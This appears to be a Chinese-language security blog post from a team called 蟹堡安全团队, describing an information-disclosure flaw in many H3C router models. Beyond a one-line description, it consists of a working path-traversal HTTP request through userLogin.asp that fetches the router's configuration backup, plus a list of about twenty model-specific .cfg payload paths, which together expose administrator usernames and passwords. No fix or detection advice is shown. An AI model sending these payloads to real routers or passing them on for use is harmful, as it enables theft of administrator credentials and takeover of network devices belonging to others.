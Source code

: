 #  ​H3C路由器 userLogin.asp 信息泄漏漏洞   
原创 R0seK1ller  蟹堡安全团队   2024-08-02 22:41  
  
# 1. 漏洞描述  
  
	  
     H3C路由器多系列存在信息泄露漏洞，攻击者可以利用该漏洞获取备份文件中的管理员账户及密码等敏感信息  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zUcr0ib9h7OSEfxqyFzVgPt5eQr280sZtniama7Jp3ibOkvzmwAxdv1blm5KTMRTl8ATk7KhDUv24nMQ/640?wx_fmt=png&from=appmsg "")  
## 2. 漏洞复现  
```
GET /userLogin.asp/../actionpolicy_status/../GR2200.cfg HTTP/1.1
Host: X.X.X.X
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```  
```
```  
  
	  
    payload 中待读取的 .cfg 名与路由器型号有关，只要将名字改成对应型号名就可以了。  
```
/userLogin.asp/../actionpolicy_status/../ER8300G2.cfg
/userLogin.asp/../actionpolicy_status/../M60.cfg
/userLogin.asp/../actionpolicy_status/../GR8300.cfg
/userLogin.asp/../actionpolicy_status/../GR5200.cfg
/userLogin.asp/../actionpolicy_status/../GR3200.cfg
/userLogin.asp/../actionpolicy_status/../GR2200.cfg
/userLogin.asp/../actionpolicy_status/../ER8300G2-X.cfg
/userLogin.asp/../actionpolicy_status/../ER8300G2.cfg
/userLogin.asp/../actionpolicy_status/../ER6300G2.cfg
/userLogin.asp/../actionpolicy_status/../ER5200G2.cfg
/userLogin.asp/../actionpolicy_status/../ER5200.cfg
/userLogin.asp/../actionpolicy_status/../ER5100.cfg
/userLogin.asp/../actionpolicy_status/../ER3260G2.cfg
/userLogin.asp/../actionpolicy_status/../ER3260.cfg
/userLogin.asp/../actionpolicy_status/../ER3200G2.cfg
/userLogin.asp/../actionpolicy_status/../ER3200.cfg
/userLogin.asp/../actionpolicy_status/../ER3108GW.cfg
/userLogin.asp/../actionpolicy_status/../ER3108G.cfg
/userLogin.asp/../actionpolicy_status/../ER3100G2.cfg
/userLogin.asp/../actionpolicy_status/../ER3100.cfg
/userLogin.asp/../actionpolicy_status/../ER2200G2.cfg

...

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zUcr0ib9h7OSEfxqyFzVgPt55V7wFliaQXc5glxRJQVuQz7e4kcLeba6mo8ia8A8O3RibttIIYyYSsZWg/640?wx_fmt=png&from=appmsg "")  
  
